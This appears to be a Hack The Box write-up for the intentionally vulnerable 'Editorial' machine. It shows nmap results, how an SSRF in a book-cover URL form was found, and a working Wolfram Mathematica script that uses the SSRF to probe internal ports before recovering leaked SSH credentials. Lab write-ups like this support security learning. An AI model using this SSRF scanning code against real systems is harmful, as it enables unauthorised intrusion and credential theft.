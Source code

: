 Editorial (https://app.hackthebox.com/machines/608) from Hack The Box is vulnerable by design Linux machine and was part of their Season 5 competition. At the time, I was knee-deep in my OSEP studies, but I still found some time to work on other pentesting skills by trying to solve boxes for this competition. 

Initial enumeration revealed a web server running on port 80 and ssh on port 22.

```bash
Nmap scan report for editorial.htb (10.10.11.20)
Host is up, received user-set (0.095s latency).
Scanned at 2024-06-17 20:58:15 EDT for 98s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2JyCHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Editorial Tiempo Arriba
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

I launched a web browser to review the site, which redirected to hxxp[://]editorial[.]htb, but the page didn’t load since editorial.htb didn't resolve. After adding editorial.htb and its IP address to /etc/hosts, I reloaded the page and could access it.

Soon after, I found a page with a "Book information" form and started testing it. The first field allowed me to enter a URL, so I provided one that pointed back to the IP address of my VPN interface on my Kali VM. I then started a netcat listener on port 80 on my VM.

![Editorial Upload Page](Images/UWLPT/01-ssrf.png)

After a couple of false starts, I was able to determine that I needed to select "Preview" to receive a connection back. I was using Burp Suite to allow me to easily change the request for testing. Forwarding the Request along results in a response that directs to a JPEG image file.


![Netcat listener connection along with BurpSuite Request and Response](Images/UWLPT/02-ssrf-confirmed.png)

Based on the response, it seems we're looking at an Server-Side Request Forgery (SSRF) after making a request to localhost (aka 127.0.0.1) and it points to the same JPEG file.


![Probing localhost](Images/UWLPT/04-localhost.png)

My next approach was to determine if another web server or service was running locally. To test this, I needed to scan all 65,535 possible TCP ports internally. While testing each port isn't challenging, automating it requires crafting requests that dynamically insert each port, like` http://127.0.0.1:FUZZ`, and then reviewing the responses. Although tools like ffuf are well-suited for this task, I decided to experiment with Wolfram Mathematica to explore its potential in this context.

I started by taking a basic HTTP request template from Burp Suite and converting it into a function template in Wolfram Language that allowed for port insertion. While I’m not a pro with Wolfram Language, the solution worked for this purpose. Below is the code that makes these requests. It takes a port number as input, and if the response body doesn’t contain /static/images/, it outputs the port and response body. If /static/images/ is found, it simply prints the port number to confirm the code's functionality.

```mathematica
makeRequests[port_]:=Module[{boundary,bt,request,response},
boundary="---------------------------452647181736560613536731952";
bt=StringTemplate["
-----------------------------452647181736560613536731952
Content-Disposition: form-data; name=\"bookurl\"

http://127.0.0.1:``
-----------------------------452647181736560613536731952
Content-Disposition: form-data; name=\"bookfile\"; filename=\"\"
Content-Type: application/octet-stream


-----------------------------452647181736560613536731952--
"][port];
request=HTTPRequest["http://editorial.htb/upload-cover",<|"Method"->"POST","Headers"->{"Host"->"editorial.htb","User-Agent"->"Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0","Accept"->"*/*","Accept-Language"->"en-US,en;q=0.5","Accept-Encoding"->"gzip, deflate, br","Content-Type"->"multipart/form-data; boundary="<>boundary,"Content-Length"->ToString[StringLength[bt]],"Origin"->"http://editorial.htb","Referer"->"http://editorial.htb/upload"},"Body"->bt|>];
response=URLRead[request];
If[!StringContainsQ[response["Body"],"/static/images/"],Print[<|port->response["Body"]|>],Print[port]]
]
```

I didn't want to run over all +65k ports, so I started with a list of commonly using web ports.

```mathematica
popularWebserverPorts={"80","443","8080","8443","8000","8888","8081","8444","3000","9000","5000","8082","9090","8880"};
```

Execute our code and see what happens.

```mathematica
makeRequests[#]&/@popularWebserverPorts
```

On port 5000, there is a URL fragment which doesn't point to a JPEG.

![](Images/UWLPT/12-wl-popular-web-service-ports.png)

Fortunately, one can "see" the contents of these links through the main website. I had tested the JPEG file earlier in the browser. We can make a request for this file.

```mathematica
URLRead[HTTPRequest["http://editorial.htb/static/uploads/4fceb143-596a-4068-999c-b3ff4003f166"]]
```

This request returns a JSON respose. 

![JSON Response Text](Images/UWLPT/14-wl-json.png)

Let's retrieve all the endpoints, and as one can see below, login credentials are retrieved.

![Credentials for dev](Images/UWLPT/15-wl-found-password.png)

I was able to use the credentials to get a shell on the machine using ssh impersonating dev. While enumerating and finding the initial exploit didn't use standard hacker tools, I did find devising an alternative exploit tool using Wolfram Mathematica satisfying. 